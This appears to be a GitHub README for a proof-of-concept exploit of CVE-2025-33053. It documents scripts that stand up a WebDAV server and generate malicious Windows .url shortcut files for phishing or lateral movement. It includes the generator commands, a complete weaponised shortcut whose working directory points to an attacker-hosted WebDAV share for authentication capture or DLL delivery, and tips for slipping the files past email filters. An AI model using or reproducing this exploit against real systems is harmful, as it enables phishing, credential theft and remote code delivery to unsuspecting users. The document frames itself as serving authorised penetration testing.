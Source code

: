 # CVE-2025-33053 Proof Of Concept

This repository provides scripts to **automatically deploy a WebDAV server on Ubuntu using Apache2**, and generate **malicious `.url` shortcut files** for use in phishing, red teaming, or lateral movement simulation.

---

## 📁 Contents

- `setup_webdav.sh` – Bash script to configure Apache2 + WebDAV with authentication.
- `setup_webdav.py` – Python version of the above.
- `gen_url.py` – Python script to generate `.url` shortcut files with UNC/WebDAV paths.
- `README.md` – Documentation.

---

## 🔧 Requirements

- OS: Ubuntu 20.04 or newer (Debian-compatible)
- Root privileges (`sudo`)
- Python 3.x

---

## 🚀 Setup Instructions

### 1. WebDAV Server (via Bash)

```bash
sudo bash setup_webdav.sh
```

Or using Python:

```bash
sudo python3 setup_webdav.py
```

By default, the script will:

- Install Apache and required WebDAV modules.
- Create a shared directory at `/var/www/webdav`.
- Enable `DAV` and `DAV_FS` modules.
- Create a `DavLockDB` directory (to prevent Apache DAV locking errors).
- Restart the Apache service.

> 📎 WebDAV path: `http://<your-ip>/webdav/`

---

## 💣 Generating a Malicious `.url` Shortcut

### Example usage:

```bash
python3 gen_url.py --ip 192.168.1.100 --out doc.url
```

### All Options:

```bash
python3 gen_url.py \
  --ip 192.168.1.100 \
  --share webdav \
  --out finance_report.url \
  --exe "C:\Program Files\Internet Explorer\iediagcmd.exe" \
  --icon "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe" \
  --index 13 \
  --modified 20F06BA06D07BD014D
```

This will create a `.url` file like:

```ini
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.100\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```

> 📌 Clicking this file (in certain configurations) may cause the target system to auto-connect to your WebDAV server (authentication or DLL delivery).

---

## 🔒 Notes for Security Testing

- **Disable Firewall (or open port 80)** if testing on a local network:
  ```bash
  sudo ufw allow 80
  ```
- `.url` files may not execute as expected depending on:
  - Group Policy restrictions
  - Application defaults
  - Email client (Gmail may sanitize them)
- You may need to zip or rename `.url` to `.txt` to bypass filters.

---

## ⚠️ Legal Disclaimer

This repository is for **educational and authorized penetration testing only**.  
**Do not use** these scripts against systems you do not own or have permission to test.

---

## 🧠 References

- [WebDAV Server Setup - LinuxConfig.org](https://linuxconfig.org/webdav-server-setup-on-ubuntu-linux)
- [WebDAV Apache Config - Peter Girnus](https://www.petergirnus.com/blog/setup-configure-a-webdav-server-ubuntu-linux-apache)
- [Microsoft WebDAV Docs](https://learn.microsoft.com/en-us/iis/publish/using-webdav/using-webdav-with-iis)

---

## 📬 Contact

For questions or ethical red teaming requests, reach out via GitHub issues.
